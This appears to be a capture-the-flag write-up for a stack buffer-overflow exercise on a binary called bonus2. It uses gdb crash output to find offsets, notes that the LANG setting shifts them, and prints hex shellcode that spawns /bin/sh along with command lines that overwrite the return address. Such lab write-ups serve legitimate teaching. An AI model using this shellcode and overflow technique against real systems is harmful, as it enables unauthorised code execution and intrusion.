 (gdb) run aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJkkKKllLLmmMMnnNNooOOppPPqqQQrrRRssSSttTTuuUUvvVVwwWWxxXXyyYYzzZZ aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJkkKKllLLmmMMnnNNooOOppPPqqQQrrRRssSSttTTuuUUvvVVwwWWxxXXyyYYzzZZ
Starting program: /home/user/bonus2/bonus2 aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJkkKKllLLmmMMnnNNooOOppPPqqQQrrRRssSSttTTuuUUvvVVwwWWxxXXyyYYzzZZ aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJkkKKllLLmmMMnnNNooOOppPPqqQQrrRRssSSttTTuuUUvvVVwwWWxxXXyyYYzzZZ
Hello aaAAbbBBccCCddDDeeEEffFFggGGhhHHiiIIjjJJaaAAbbBBccCCddDDeeEEffFFggGGhhHH

Program received signal SIGSEGV, Segmentation fault.
0x08004848 in ?? ()
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
(gdb)

0x08004848 -> "\0HH"
0x08004242 -> "\0BB" 

since it's little endian it's (falling) in reverse.

Soooooooooooooooooooooooooooo, tl;dr argv2 segfault at 26 (- 4 = 22).

we'll use the same shell code as last time.

```
export SHELLCODE=$(python -c 'print("\x90" * 64 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')
``` 

`./bonus2 $(python -c "print('\x90' * 40)") $(python -c "print('\x90' * 34 + '\xbf\xff\xf8\xc3'[::-1] + '\x90' * 50)")`

and it still segfault... By looking a bit to the code `getenv` is called with `LANG`. It can be either `en` (by default) `nl` `fi`.

`export LANG="nl"`

With LANG=nl, the binary segfault at 18, with LANG=fi it's at 23

`./bonus2 $(python -c "print('\x90' * 40)") $(python -c "print('\x90' * 18 + '\xbf\xff\xf8\xc3'[::-1] + '\x90' * 50)")`